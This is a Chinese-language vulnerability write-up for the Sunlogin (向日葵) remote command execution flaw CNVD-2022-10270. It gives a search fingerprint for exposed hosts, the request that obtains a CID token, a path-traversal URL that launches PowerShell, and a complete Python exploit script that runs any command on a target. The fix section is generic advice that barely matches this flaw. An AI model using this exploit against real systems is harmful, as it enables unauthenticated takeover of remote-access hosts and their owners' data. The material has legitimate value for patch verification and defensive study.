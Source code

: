 # 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

```
11.0.0.33162
```

## 网络测绘

```
body="Verification failure"
```

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口

![image-20220524135408561](./images/202205241354598.png)

发送请求获取CID

```
/cgi-bin/rpc?action=verify-haras
```

![image-20220524135428094](./images/202205241354132.png)

使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

![](./images/202205241354108.png)

## 漏洞修复

1. 输入检查:应用程序必须实现输入检查机制，将所有从外部接收的数据都进行严格的检查和过滤，防止恶意代码被注入。
2. 参数化查询:采用参数化查询可以防止攻击者通过利用应用程序的注入漏洞来修改查询语句，实现任意代码执行的攻击。
3. 输出编码:在输出时对敏感字符进行编码保护，比如 HTML 编码，防止恶意代码直接输出执行。
4. 使用最新的安全防护措施:保证服务器系统和应用程序的所有组件、库和插件都是最 新的，确保已知的漏洞都得到修复。
5. 强制访问控制:应该设置访问控制机制，确保恶意用户无法访问敏感数据和代码。

## 漏洞POC

exp：

```
import requests,sys
 
ip = sys.argv[1]
command = sys.argv[2]
payload1 = "/cgi-bin/rpc?action=verify-haras"
payload2 = "/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe+"
headers = {
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0'
}
 
if "http://" not in ip:
    host = "http://" + ip
else:
    host = ip
 
try:
    s = requests.Session()
    res = s.get(url=host + payload1,headers=headers)
    if res.status_code == 200:
        res = res.json()
        Cid = res['verify_string']
        headers.update({'Cookie':"CID=" + Cid})
        res1 = s.get(url=host + payload2 + command,headers=headers)
        res1.encoding = "GBK"
        print(res1.text)
    else:
        pass
except Exception as e:
    print(e)
```

